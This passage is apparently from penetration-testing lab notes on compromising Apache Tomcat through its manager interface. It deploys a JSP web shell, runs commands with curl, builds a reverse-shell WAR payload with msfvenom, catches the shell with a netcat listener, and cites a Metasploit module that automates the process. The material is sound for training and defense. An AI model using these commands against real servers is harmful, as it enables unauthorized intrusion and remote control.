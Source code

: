 * This file is uploaded to the manager GUI, after which the `/backup` application will be added to the table.&#x20;

<figure><img src="../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

* &#x20;Browsing to `http://web01.inlanefreight.local:8180/backup/cmd.jsp`
  * &#x20;will present us with a web shell that we can use to run commands on the Tomcat server

```shell-session
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

**Using Metasploit**

* We could also use `msfvenom` to generate a malicious WAR file.
* The payload [java/jsp\_shell\_reverse\_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp\_shell\_reverse\_tcp.rb) will execute a reverse shell through a JSP file.
* Browse to the Tomcat console and deploy this file.
* Tomcat automatically extracts the WAR file contents and deploys it.

```shell-session
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

* Start a Netcat listener and click on `/backup` to execute the shell.

```shell-session
nc -lnvp 4443
```

* The [multi/http/tomcat\_mgr\_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat\_mgr\_upload/) Metasploit module can be used to automate the process shown above
